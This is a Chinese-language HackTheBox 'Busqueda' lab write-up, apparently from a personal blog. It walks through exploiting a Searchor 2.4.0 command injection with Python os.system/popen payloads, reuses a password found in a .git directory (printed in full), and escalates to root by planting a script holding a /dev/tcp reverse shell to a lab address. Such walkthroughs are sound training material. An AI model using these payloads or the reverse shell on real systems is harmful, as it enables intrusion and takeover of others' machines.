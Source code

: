 ```yaml
---
title: HackTheBox-Busqueda
date: 2024-5-15 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




##  nmap

![image-20250515114033181](./Busqueda/image-20250515114033181.png)

## 80端口

![image-20250515135324804](./Busqueda/image-20250515135324804.png)

最下面有版本号，并且点击会跳转到github的该项目

在release中可以看到2.4.2版本修复了一个高优先级漏洞

![image-20250515135558784](./Busqueda/image-20250515135558784.png)

直接搜索该版本也可以搜索到该漏洞

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

它可以提供使用如下函数执行任意代码的能力：再加上print函数打印出来就可以回显

- `__import__('os').system('<CMD>')`
- `__import__('os').popen('<CMD>').read() `

![image-20250515140300696](./Busqueda/image-20250515140300696.png)

可以在这里继续命令执行反弹shell也可以直接执行poc

![image-20250515140448362](./Busqueda/image-20250515140448362.png)

## 提权

网站根目录下有.git文件，其中有cody用户的账号和密码

![image-20250515142500920](./Busqueda/image-20250515142500920.png)

```
cody:jh1usoih2bkjaspwe92
```

查看svc具有那些root权限，执行sudo -l,要求输入密码，尝试输入cody的密码，密码正确

执行sudo -l时可能会报这种错，可以使用python获得一个shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20250515143354481](./Busqueda/image-20250515143354481.png)

![image-20250515143236741](./Busqueda/image-20250515143236741.png)

具有执行一个python文件的权限，但是该权限没有可写权限，只能执行

![image-20250515144148283](./Busqueda/image-20250515144148283.png)

尝试执行，给出了使用方法和参数

![image-20250515144205271](./Busqueda/image-20250515144205271.png)

当前文件夹下还有full-check.sh文件，猜测可能是调用当前文件夹下的full-checkup.sh脚本

![image-20250515144424733](./Busqueda/image-20250515144424733.png)

可以自己写一个full-checkup.sh上传到靶机，并且赋予执行权限然后再运行时就可以执行自己写的脚本

```
#! /bin/bash
bash -i &> /dev/tcp/10.10.16.3/4444 0>&1
```

![image-20250515150129234](./Busqueda/image-20250515150129234.png)

![image-20250515150138542](./Busqueda/image-20250515150138542.png)

![image-20250515150143300](./Busqueda/image-20250515150143300.png)
